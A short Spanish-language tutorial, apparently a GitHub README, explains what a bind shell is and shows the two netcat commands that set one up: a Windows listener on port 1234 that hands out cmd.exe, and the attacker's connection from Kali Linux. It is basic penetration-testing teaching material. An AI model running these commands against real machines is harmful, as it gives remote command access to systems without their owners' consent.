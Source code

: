 <h1 align="center">Bind shell</h1>

## **Introducción**

En una **bind shell**, el objetivo (víctima) abre un puerto en su sistema y escucha conexiones entrantes. Cuando un atacante se conecta a este puerto, puede acceder al sistema de la víctima, en este caso, al cmd (símbolo del sistema) de Windows.

## **Configuración de Bind Shell**

### **En la Víctima (Sistema Windows)**

1. Abrir la terminal (cmd.exe) con permisos de administrador.
2. Ejecutar el siguiente comando para abrir el puerto 1234 y escuchar conexiones entrantes:
  
`nc -lvnp 1234 -e cmd.exe`

### **En Kali Linux (Atacante)**

Ejecutar el siguiente comando para conectarse al puerto 1234 del sistema víctima:

`nc -n \*ip_victima\* 1234`
